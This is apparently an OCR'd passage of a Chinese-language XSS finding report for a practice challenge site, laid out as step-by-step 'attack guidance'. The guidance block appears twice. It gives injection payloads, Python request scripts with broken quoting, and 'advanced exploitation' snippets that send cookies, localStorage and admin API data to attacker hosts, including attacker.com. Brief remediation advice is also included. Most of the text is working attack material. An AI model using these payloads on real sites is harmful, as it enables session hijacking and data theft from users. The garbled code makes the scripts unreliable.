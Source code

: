 #### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   <svg onload=alert(document.domain)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '<svg onload=alert(document.domain)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: critical
- 验证载荷: <img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   <img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '<img src=x onerror=fetch('/api/admin_data').then(r=>r.text()).then(t=>fetch('http://attacker.com/?d='+btoa(t)))>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```
